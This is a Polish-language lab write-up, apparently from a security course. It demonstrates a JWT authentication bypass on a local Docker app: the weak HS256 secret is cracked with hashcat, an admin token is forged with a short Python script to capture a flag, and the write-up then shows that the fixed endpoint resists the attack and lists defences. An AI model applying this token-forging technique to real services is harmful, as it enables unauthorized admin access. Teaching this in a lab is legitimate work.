




# Zadanie 3.6 — Bypass uwierzytelniania przez słaby sekret JWT

> **Cel:** zalogować się jako `student`, złamać słaby sekret podpisujący JWT
> słownikiem, podrobić token administratora i wejść na `/vuln/admin` **bez
> znajomości hasła admina** (flaga). Na końcu potwierdzić, że wersja `/fix`
> (silny sekret) jest odporna.

| | |
|---|---|
| **Aplikacja** | `docker run -dit -p 5006:5006 --name jwtex6 docker.io/mazurkatarzyna/jwt-ex6` → `http://127.0.0.1:5006` |
| **Dane** | `student` / `password123` |
| **Narzędzia** | `hashcat` (tryb 16500 = JWT HS256) |
| **Słownik** | `jwt.secrets.list` (wallarm/jwt-secrets, ~104 tys. haseł) |
| **Złamany sekret** | `secret1` |
| **Flaga** | `FLAG{admin_only_flag}` |

Endpointy: `/vuln/login`, `/vuln/admin` (podatne, słaby sekret) oraz
`/fix/login`, `/fix/admin` (bezpieczne, silny sekret).

---

## (d) Logowanie, analiza tokena, odmowa dostępu

```bash
# logowanie -> JWT
curl -s -X POST http://127.0.0.1:5006/vuln/login -H "Content-Type: application/json" \
  -d '{"username":"student","password":"password123"}'
# zapis tokena i podglad payloadu
echo "<token>" > token.jwt
cat token.jwt | cut -d. -f2 | base64 -d; echo      # {"sub":"student","admin":0,"exp":...}
# proba wejscia na panel admina
curl -s http://127.0.0.1:5006/vuln/admin -H "Authorization: Bearer $(cat token.jwt)"
# -> "Access denied. Admin privileges required."
```

Payload studenta ma `admin:0`, więc `/vuln/admin` odmawia.



## (e) Łamanie sekretu — hashcat tryb 16500

```bash
hashcat -a 0 -m 16500 token.jwt jwt.secrets.list
hashcat -a 0 -m 16500 token.jwt jwt.secrets.list --show
```

Status **Cracked**, sekret = **`secret1`** (złamany w ułamku sekundy — słownik
zawiera typowe słabe sekrety JWT).



## (f) Podrobienie tokena admina → flaga

`forge.py` buduje token z `admin:1`, podpisany złamanym `secret1`:

```python
import jwt, time
SECRET = "secret1"
payload = {"sub": "admin", "admin": 1, "exp": int(time.time()) + 3600}
print(jwt.encode(payload, SECRET, algorithm="HS256"))
```

```bash
curl -s http://127.0.0.1:5006/vuln/admin -H "Authorization: Bearer $(python3 forge.py)"
# -> {"flag": "FLAG{admin_only_flag}", "message": "Access granted."}
```



Dostęp do panelu admina uzyskany **bez znajomości hasła admina** — wystarczyła
znajomość (złamanego) sekretu podpisującego.

## (g) Wersja `/fix` — odporna

```bash
curl -s http://127.0.0.1:5006/fix/admin -H "Authorization: Bearer $(python3 forge.py)"
# -> {"error": "Invalid token: Signature verification failed"}
```

`/fix` używa **silnego** sekretu — słownik go nie złamał, a token podpisany
`secret1` jest odrzucany przy weryfikacji podpisu.



---

## Wnioski
- **Słaby, słownikowy sekret HMAC** sprowadza całe bezpieczeństwo JWT do zera —
  atakujący odzyskuje sekret offline (bez ruchu do serwera) i podpisuje
  **dowolny** payload, w tym `admin:1`.
- Serwer ufał polu `admin` w (poprawnie podpisanym) tokenie — podpis był
  jedyną barierą, a padł z powodu słabego sekretu.

## Obrona
- Długi, losowy sekret (≥256 bitów) z secret-managera / zmiennej środowiskowej —
  nie z kodu ani słownika.
- Rozważyć podpis asymetryczny (RS256) — klient nie zna klucza prywatnego.
- Krótki `exp`, rotacja sekretu, walidacja `iss`/`aud`.

## Pliki
- `forge.py` — generator podrobionego tokena admina
- `token.jwt` — przykładowy token studenta (do hashcata)
- `jwt_secrets.txt` / `jwt_all.txt` — małe listy pomocnicze
- *(słownik `jwt.secrets.list` pominięty w repo — `.gitignore`, ~1.2 MB)*
